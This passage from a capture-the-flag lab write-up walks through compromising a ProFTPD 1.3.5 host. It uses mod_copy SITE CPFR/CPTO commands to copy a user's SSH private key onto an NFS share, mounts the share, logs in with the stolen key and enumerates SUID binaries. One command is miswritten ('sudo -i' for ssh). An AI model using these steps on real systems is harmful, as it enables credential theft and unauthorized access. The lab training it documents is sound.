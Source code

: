 ```bash
  220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.226.34]
```
Once the server is access, we will be used the `mod_copy` modile using `SITE CPFR` and `SITE CPTO` (Copy-from and Copy-to which is used to copy files/directories from one place to another withing the server.
```bash
SITE CPFR /home/kenobi/.ssh/id_rsa
  350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
  250 Copy successful
```
With the private SSH key files moved to the `/var` mounting point we are instructed to mount the shared directory to hour machine.
```bash
sudo mkdir /mnt/kenobiNFS
sudo mount TargetIP:/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```
```bash
cat /mnt/kenobiNFS/tmp/id_rsa
```
```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA4PeD0e0522UEj7xlrLmN68R6iSG3HMK/aTI812CTtzM9gnX...
-----END RSA PRIVATE KEY-----
```


#### Installation 
N/A

#### Command & Control
N/A

#### Actions on Objective
With the private SSH key located we could attempt to remote into the `kenobi` user after we give ourselves read and write permissions on the file.
```bash
sudo chmod 600 id_rsa
sudo -i id_rsa kenobi@TargetIP
```
With this we have successfuly been able to SSH into the target machine without a password. We can start to explore for loot.
```bash
ls
cat user.txt
  d0b0f3f53b6caa532a83915e19224899
```
Next we are instructed to search the system for files in which we have permissions. At the time of this attempt, I didn't know how the command translates to SUID bits.
```bash
find / -perm -u=s -type f 2>/dev/null
```
```
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
```